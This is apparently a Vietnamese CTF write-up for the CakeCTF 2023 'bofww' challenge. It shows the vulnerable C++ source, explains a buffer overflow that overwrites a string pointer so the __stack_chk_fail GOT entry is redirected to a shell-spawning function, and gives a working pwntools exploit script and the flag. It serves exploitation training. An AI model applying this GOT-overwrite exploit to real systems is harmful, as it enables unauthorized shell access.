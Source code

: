 # bofww

## source C++

```c 
#include <iostream>

void win() {
  std::system("/bin/sh");
}

void input_person(int& age, std::string& name) {
  int _age;
  char _name[0x100];
  std::cout << "What is your first name? ";
  std::cin >> _name;
  std::cout << "How old are you? ";
  std::cin >> _age;
  name = _name;
  age = _age;
}

int main() {
  int age;
  std::string name;
  input_person(age, name);
  std::cout << "Information:" << std::endl
            << "Age: " << age << std::endl
            << "Name: " << name << std::endl;
  return 0;
}

__attribute__((constructor))
void setup(void) {
  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);
}
```

## Analysis
- khá bất ngờ khi lần đầu làm 1 chall bằng c++
- ở đây ko có read, fgets, gets mà thay vào đó cin
- tại hàm name có lỗi BOF khi cin vào _name[0x100], có cả hàm win nữa nên ta nghĩ ngay đến ret2win
- checks thì có canary , mà ta ko thể leak được nên ret2win là ko khả thi 
- sau khi được hint thì ta phải sử dụng 1 kĩ thuật mới đó **overwrite got __stack_chk_fail** 

### __stack_chk_fail 

https://github.com/gookoosss/CTF/blob/main/PWN/training/__stack_chk_fail.md

## Exploit 
- hướng đi của ta là **overwrite got __stack_chk_fail**, nhưng làm sao để làm được nó??
- đọc lại source thì thấy có thêm bug ở đây 
``` 
  name = _name;
  age = _age;
```
- ở đây string& name đang là 1 pointer trỏ đến data thằng name, ta debug thử xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/062313ee-1452-42f5-b7ce-9df0c928abe0)

![image](https://github.com/gookoosss/CTF/assets/128712571/efd3871a-a129-40ec-9ae2-44b9b3181e62)


- deee đúng như ta đoán r, thế giờ ý tưởng của ta là sử dụng BOF để orw **thằng pointer (0x7fffffffe030)** thành got **stack_chk_fail**, còn sau đó data sẽ được gán vào __stack_chk_fail nên ta sẽ nhập luôn hàm win vào data 
- age ko quan trọng nên ta nhập đại số nào đó  

![image](https://github.com/gookoosss/CTF/assets/128712571/4b781a7e-5f3e-49b2-8378-d50d673e32ff)


- dee và cuối cùng ta cũng lấy được flag

![image](https://github.com/gookoosss/CTF/assets/128712571/300e3ea3-5d90-4399-bdd4-c8334434e16b)


## script 

```python 
from pwn import *
p = remote("bofww.2023.cakectf.com", 9002)
# p = process('./bofww')

# gdb.attach(p, gdbscript = '''
# b*0x0000000000401369
# b*0x000000000040136e
# b*0x00000000004013b4
# c
# ''')

# input()


payload = p64(0x4012f6)
payload += p64(0x404050)*0x30

p.sendlineafter(b"name? ", payload)
p.sendline(b'4444')


p.interactive()

# CakeCTF{n0w_try_w1th0ut_w1n_func710n:)}
``` 

## Flag 

CakeCTF{n0w_try_w1th0ut_w1n_func710n:)}
